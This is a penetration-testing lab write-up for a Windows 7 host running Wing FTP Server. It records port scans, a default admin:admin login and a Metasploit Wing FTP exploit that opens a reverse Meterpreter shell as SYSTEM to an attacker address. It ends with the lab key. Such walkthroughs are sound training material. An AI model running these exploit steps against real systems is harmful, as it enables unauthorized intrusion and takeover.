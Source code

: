 # Pentest 2 - Steven - 36

IP Address is 10.14.1.36

### Scanning  
First we will capture our report to 2/initial
                                         
```bash
nmap -Pn -sC -sV -oN 2/initial $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:07 EDT
Nmap scan report for 10.14.1.36
Host is up (0.17s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Wing FTP Server
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| Status for user anonymous:
|     Connected for 0 minutes, 2 seconds
|     2 users online.
|     Uploaded 0 files, 0.000 KB, 0.000 KB/sec average
|     Downloaded 0 files, 0.000 KB, 0.000 KB/sec average
|_End of status.
80/tcp open  http    Wing FTP Server(Ferdi Bak)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not found
|     Server: Wing FTP Server(Ferdi Bak)
|     Cache-Control: private
|     Content-Type: application/octet-stream
|     Content-Length: 0
|     Connection: close
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.0 200 HTTP OK
|     Server: Wing FTP Server(Ferdi Bak)
|     Cache-Control: private
|     Content-Type: text/html
|     Content-Length: 316
|     Connection: close
|     <noscript><center><H2>The web client requires that you have Javascript enabled on your browser.<br>If you're not sure how to do this, <a href='help_javascript.htm'>click here.</a></H2></center></noscript>
|_    <meta http-equiv='Content-Type' content='text/html; charset=utf-8'><script>top.location='login.html';</script>
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Wing FTP Server(Ferdi Bak)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

So we see FTP and 80 (http) open  
Additionally, we can see it's using "Wing FTP Server"  
Lets search and see if there is anything in searchsploit.  
Additionally since it's open on port 80, lets see if there is anything on the page?  
![Image1](/VHL/Reports/2/2_1.png)

Let's also see if we can determine what OS is being used:
```bash
sudo nmap -A -p 21,80 -Pn $STEVEN 
OS details: Microsoft Windows Server 2008 or 2008 Beta 3, Microsoft Windows Server 2008 R2 or Windows 8.1, Microsoft Windows 7 Professional or Windows 8, Microsoft Windows Embedded Standard 7, Microsoft Windows 8.1 R1, Microsoft Windows Phone 7.5 or 8.0, Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7, Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008
```
So at this point we are guessing this is a windows server.  
Let's see what searchsploit and exploit-db have?  

```searchsploit wing
Wing FTP Server - (Authenticated) Command Execution (Metasploit)                                              | windows/remote/34517.rb
Wing FTP Server - Authenticated CSRF (Delete Admin)                                                           | php/webapps/48200.txt
Wing FTP Server 3.2.4 - Cross-Site Request Forgery                                                            | multiple/webapps/10821.txt
Wing FTP Server 6.0.7 - Unquoted Service Path                                                                 | windows/local/47818.txt
Wing FTP Server 6.2.3 - Privilege Escalation                                                                  | windows/local/48160.py
Wing FTP Server 6.2.5 - Privilege Escalation                                                                  | multiple/webapps/48154.sh
Wing FTP Server 6.3.8 - Remote Code Execution (Authenticated)                                                 | lua/webapps/48676.txt
Wing FTP Server Admin 4.4.5 - Cross-Site Request Forgery (Add User)                                           | php/webapps/36992.txt
Wing FTP Server Admin 4.4.5 - Multiple Vulnerabilities                                                        | windows/webapps/36861.txt
```

Since we know anonymous ftp is allowed, maybe we can try that?  
![Image2](/VHL/Reports/2/2_2.png)

So we know that we can get into the server using anonymous login (with no password). 
Can we do anything with this?   
I can't tell what version it is using despite being in the page.   
As an anonymous user, I don't have permissions to upload.  
Let's see if the exploits yield any success?  

Metasploit shows 1 good option:  
```bash
search wing
   11  exploit/windows/ftp/wing_ftp_admin_exec         2014-06-19       excellent  Yes    Wing FTP Server Authenticated Command Execution
```

This required admin credentials - I realized I didn't have admin credentials, and would not be able to utilize this exploit currently.  
Reviewing the internet for "Wing FTP server" however, tells me port 5466 and 7466 are also commonly used ports.  
Lets scan to see if these yield anything?  

```bash
sudo nmap -sS -Pn -p 5466,7466 $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:43 EDT
Nmap scan report for 10.14.1.36
Host is up (0.16s latency).

PORT     STATE    SERVICE
5466/tcp open     unknown
7466/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 2.75 seconds
```

Indeed!  Let's see what is there.

```bash
sudo nmap -sV -Pn -p 5466,7466 $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:44 EDT
Nmap scan report for 10.14.1.36
Host is up (0.31s latency).

PORT     STATE    SERVICE VERSION
5466/tcp open     unknown
7466/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5466-TCP:V=7.92%I=7%D=7/27%Time=64C2F367%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,1E7,"HTTP/1\.0\x20200\x20HTTP\x20OK\r\nServer:\x20Wing\x20FT
```

It looks like we are getting a page response from one of these, so can we pull a page?  
10.14.1.36:7466 yields nothing , but 10.14.1.36:5466 gives us the admin page!  
Lets try admin:admin?   
Wow, I didn't expect that to work…  
![Image3](/VHL/Reports/2/2_3.png)

So right now, we have both a metasploit that can take an admin user/password, as well as FTP webpage administrator access.  
Lets try metasploit first to see where this gets us?  
```bash
msfconsole
use windows/ftp/wing_ftp_admin_exec
Show options -> 
Module options (exploit/windows/ftp/wing_ftp_admin_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Admin password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5466             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   USERNAME                   yes       Admin username
   VHOST                      no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.4.1       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wing FTP Server >= 3.0.0

msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set password admin
password => admin
msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set username admin
username => admin
msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 10.14.1.36
RHOST => 10.14.1.36

msf6 exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 172.16.4.1:4444 
[*] Found Wing FTP Server 4.3.8
[+] Found Powershell at C:\Windows\System32\WindowsPowerShell\v1.0\
[*] Executing payload via PowerShell...
[*] Sending stage (175174 bytes) to 10.14.1.36
[*] Meterpreter session 1 opened (172.16.4.1:4444 -> 10.14.1.36:43156 ) at 2023-07-27 18:55:44 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\Windows\system32
meterpreter > sysinfo
Computer        : STEVEN-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

### Searching for the key

From here, attempted to search for key.txt:  
```bash
search -f *key.txt
No files matching your search were found.
```

Ok, nothing returned, lets check the paths from the provided / listed for the course?
```bash
ls "C:\Documents and Settings\Administrator\Desktop"
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-05-22 06:22:27 -0400  desktop.ini
100666/rw-rw-rw-  20    fil   2017-05-22 06:23:21 -0400  key.txt.txt

meterpreter > cat C:\Documents and Settings\Administrator\Desktop\key.txt.txt
t70m5jaco2zy9vhqlb6s
meterpreter > 
```

There we go!
